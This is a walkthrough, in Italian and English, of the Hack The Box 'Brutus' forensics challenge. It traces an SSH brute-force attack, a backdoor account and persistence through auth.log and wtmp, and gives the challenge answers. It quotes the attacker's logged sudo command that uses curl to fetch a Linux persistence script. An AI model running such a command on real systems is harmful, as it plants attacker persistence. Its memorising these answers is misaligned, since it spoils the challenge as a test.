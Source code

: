 # 🔍 Sherlock - Brutus | HTB CTF

> Very Easy | auth.log + wtmp | brute-force, escalation, persistenza

## 🧠 Scenario

In questo Sherlock (molto easy) si analizza `auth.log` e `wtmp` per ricostruire un attacco brute-force su un server Confluence. Dopo l’accesso SSH, l’attaccante esegue varie azioni che possiamo tracciare nei log.

---

## 1️⃣ Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

grep "Failed password" auth.log

Output:

Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2

Risposta: 65.2.161.68

##2️⃣ The bruteforce attempts were successful. What is the username of the account?

grep "Accepted password" auth.log

Output:

Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: root

##3️⃣ Identify the UTC timestamp when the attacker logged in manually

Uso lo script utmp.py su wtmp:

python3 utmp.py -o wtmp.out wtmp
cat wtmp.out | grep 65.2.161.68

Output:

"USER"  "2549"  "pts/1" "ts/1"  "root"  "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:32:45"   "387923"    "65.2.161.68"
"USER"  "2667"  "pts/1" "ts/1"  "cyberjunkie"   "65.2.161.68"   "0"     "0"     "0"     "2024/03/06 07:37:35"   "475575"     "65.2.161.68"

Risposta: 2024-03-06 06:32:45 (UTC)

##4️⃣ SSH login sessions are tracked... What is the session number?

grep "New session" auth.log

Output:

Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.

Risposta: 37

##5️⃣ The attacker added a new user. What is the name of this account?

Lo vedo in auth.log:

Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2

Risposta: cyberjunkie

##6️⃣ MITRE ATT&CK sub-technique ID for persistence?

Risposta: T1136.001 – Create Account: Local Account

##7️⃣ What time did the attacker's first SSH session end?

Sessione 37, quindi cerco logout in auth.log:

2024-03-06 06:37:24

Risposta: 2024-03-06 06:37:24

##8️⃣ Comando sudo per scaricare uno script

grep 'sudo' auth.log

Output:

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
...
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Risposta:

/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

##🧠 Considerazioni finali

CTF easy ma utile per ripassare concetti chiave:

    Lettura e analisi auth.log

    Uso di wtmp e utmp.py

    Tracciare brute-force

    Capire la differenza tra login e autenticazione

    Identificare attività post-exploitation (persistence + escalation)

Autore: Saitt01
Tool usati: grep, utmp.py, auth.log, wtmp
